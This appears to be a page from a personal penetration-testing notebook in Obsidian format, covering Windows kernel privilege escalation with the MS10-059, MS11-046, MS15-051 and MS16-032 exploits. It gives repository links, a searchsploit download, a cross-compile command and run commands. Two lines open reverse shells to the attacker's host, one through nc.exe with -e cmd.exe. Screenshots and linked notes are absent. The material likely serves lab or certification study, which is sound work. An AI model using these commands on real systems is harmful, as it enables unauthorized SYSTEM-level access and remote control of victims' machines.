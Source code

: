 
![[0.__PrivEsc Tools (WINDOWS)#windows-exploit-suggester py]]

[[__.Links (WINDOWS)#Escalation Path Kernel Exploits]]

![[Pasted image 20220203104433.png]]


#### Chimi Churraskito MS10-059

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

![[4._File Transfers#Certutil]]

```bash - kail
MS10-059.exe $KALI 443
```

![[Pasted image 20220203110310.png]]

#### MS11-046

```bash - kali
searchsploit -m 40564
```

```bash - kali
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

Transfer to Target.

[[4._File Transfers#Certutil]]

Now just run it.
```bash - kali
MS11-046.exe
```

#### MS15-051

MS15-051 exploit
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051

Download zip folder and extract.

Transfer over exe and nc.exe to target

![[4._File Transfers#Certutil]]

[[1._rlwrap]]

```batch - windows
ms15-051x64.exe "nc.exe $KALI 443 -e cmd.exe"
```


![[Pasted image 20220208124403.png]]

#### MS16-032

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032

Transfer exe over to target

[[4._File Transfers#Certutil]]

```
.\ms-16-032.exe
```






















